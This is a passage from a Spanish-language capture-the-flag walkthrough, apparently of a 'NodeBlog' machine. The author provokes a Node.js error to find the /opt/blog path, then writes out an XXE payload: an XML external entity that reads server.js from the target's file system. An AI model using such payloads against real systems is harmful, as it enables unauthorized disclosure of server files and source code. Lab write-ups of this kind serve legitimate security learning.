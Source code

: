
Debido a que el `servidor` usa `nodejs`, `provoco` un `error` para ver `rutas` interesantes y descubro que el `servidor` de `aloja` en la ruta `/opt/blog`

![](/assets/img/NodeBlog/image_7.png)

`Diseñamos` un nuevo `payload` para ver el `código` de `server.js` que es donde se aloja el `servidor web`

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///opt/blog/server.js'>]>
<post>
    <title>Example Post</title>
    <description>Example Description</description>
    <markdown>&xxe;</markdown>
</post>
```

El archivo `server.js` existe debido a que es el `nombre` por `defecto` que suele tener el `archivo`

![](/assets/img/NodeBlog/image_8.png)
